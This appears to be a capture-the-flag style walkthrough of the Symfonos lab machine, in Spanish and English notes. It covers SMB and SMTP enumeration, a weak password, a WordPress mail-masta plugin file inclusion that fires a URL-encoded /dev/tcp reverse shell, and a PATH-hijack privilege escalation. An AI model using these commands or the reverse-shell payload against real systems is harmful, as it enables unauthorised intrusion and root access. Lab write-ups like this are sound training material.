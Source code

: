 
````bash
crackmapexec smb 192.168.1.38 -u '' -p '' --shares
````

![Pasted image 20250221152211.png](../../assets/Pasted%20image%2020250221152211.png)
![Pasted image 20250221152237.png](../../assets/Pasted%20image%2020250221152237.png)
usuarios
![Pasted image 20250221152431.png](../../assets/Pasted%20image%2020250221152431.png)
usuarios validos
![Pasted image 20250221152653.png](../../assets/Pasted%20image%2020250221152653.png)
`helios:qwerty`
ahora podemo ver el share helios
![Pasted image 20250221153018.png](../../assets/Pasted%20image%2020250221153018.png)
![Pasted image 20250221174949.png](../../assets/Pasted%20image%2020250221174949.png)

commandos posibles en el server 25

````bash
sudo nmap -p25 -script 'smtp-*' 192.168.1.38
````

![Pasted image 20250221154608.png](../../assets/Pasted%20image%2020250221154608.png)

usuarios en el equipo
![Pasted image 20250221160232.png](../../assets/Pasted%20image%2020250221160232.png)
`_apt, backup, bin, daemon, ftp, games, gnats, irc, list, lp, mail, man, messagebus, mysql, news, nobody, postfix, postmaster, proxy, sshd, sync, sys, systemd-bus-proxy, systemd-network, systemd-resolve, systemd-timesync, uucp, webmaster, www, www-data`

![Pasted image 20250221203602.png](../../assets/Pasted%20image%2020250221203602.png)
![Pasted image 20250221212832.png](../../assets/Pasted%20image%2020250221212832.png)

![Pasted image 20250221215908.png](../../assets/Pasted%20image%2020250221215908.png)

````url
view-source:http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&command=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.45%2F4444%200%3E%261%22
````

![Pasted image 20250221220352.png](../../assets/Pasted%20image%2020250221220352.png)
![Pasted image 20250221221001.png](../../assets/Pasted%20image%2020250221221001.png)
now we can connect to the database 'wordpress' with this creds
![Pasted image 20250221225421.png](../../assets/Pasted%20image%2020250221225421.png)
lets try to crack it, but we cant, so enum more, there is a SUID file thats looks quite interesting, we can check the printables characters, looks like is doing a curl, but without the absolute path, so we can create "curl" to preform a "path hijacking"

````bash
export PATH=.:$PATH
chmod +x curl
/opt/statuscheck
````

![Pasted image 20250221231235.png](../../assets/Pasted%20image%2020250221231235.png)
nice
![Pasted image 20250221231252.png](../../assets/Pasted%20image%2020250221231252.png)
